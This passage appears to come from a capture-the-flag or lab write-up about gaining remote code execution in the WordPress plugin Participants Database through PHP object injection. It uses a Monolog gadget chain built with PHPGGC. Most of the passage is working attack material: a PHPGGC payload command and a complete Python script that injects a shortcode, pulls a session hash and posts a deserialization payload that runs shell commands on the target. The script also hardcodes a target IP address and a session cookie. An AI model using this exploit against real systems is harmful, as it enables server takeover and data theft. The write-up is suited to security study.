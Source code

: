 By reaching `unserialize()`, we can inject a malicious payload that leads to RCE.

**Exploiting Object Injection Using Rollbar Gadget:**

Participants Database interacts with the Rollbar plugin, which includes the **Monolog library**. **Monolog** in version 2.9.1 contains a gadget chain that allows us to trigger code execution through object deserialization.

To generate a malicious deserialization payload, we can use **PHPGGC**, a tool designed to generate payloads for various PHP object injection vulnerabilities.

**Generating Payload Using PHPGGC:**

Use the following command with **PHPGGC** to generate the payload that executes the `id` command:

```shell
./phpggc Monolog/RCE7 system 'id'

```

This payload leverages the **Monolog/RCE7** gadget in Monolog 2.9.1, allowing us to execute arbitrary commands on the server.

**Exploitation Script:**

Here’s the full script to exploit the Participants Database vulnerability and achieve RCE. This script sends the malicious payload to the vulnerable form, exploiting the shortcode injection vulnerability from Step 2.

**Note:** You need to register and log in first, then retrieve the WordPress session cookies from your browser's developer console.

```python
import os
import httpx
import asyncio
import re

URL = "http://100.25.255.51:9098/"

COOKIE_KEY = "wordpress_ecba2824d7e5519070149e59e3419978"
COOKIE_VALUE = "dimas|1727242988|Auxt79A9gcUAVmknKpAjqxvbmbOagfzanIoEhC0LmqL|1b5c0055e2f676e129c07c5ad658276c42137203fb6a5c17b792de1967583eb3"

# curl "http://100.25.255.51:9098/wp-json/learnpress/v1/token/register" -XPOST --data "username=dimas&password=dimas1234&confirm_password=dimas1234&email=dimas@g.com"
class BaseAPI:
    def __init__(self, url=URL) -> None:
        self.c = httpx.AsyncClient(base_url=url, timeout=10000)
        self.c.cookies.set(COOKIE_KEY, COOKIE_VALUE)

class API(BaseAPI):
    ...

async def main():
    api = API()
    res = await api.c.get("/", params={
        "nf_preview_form": "tmp-1-'][pdb_signup]"
    })
    session_hash = re.findall("session_hash\" type=\"hidden\" value=\"(.*?)\"", res.text).pop()
    s = os.popen("./phpggc/phpggc Monolog/RCE7 system 'cat /*'").read()
    print(s)
    res = await api.c.post("/", params={
        "nf_preview_form": "tmp-1-'][pdb_signup]"
    }, data={
        "action": "signup",
        "session_hash": session_hash,
        "first_name": s,
    })
```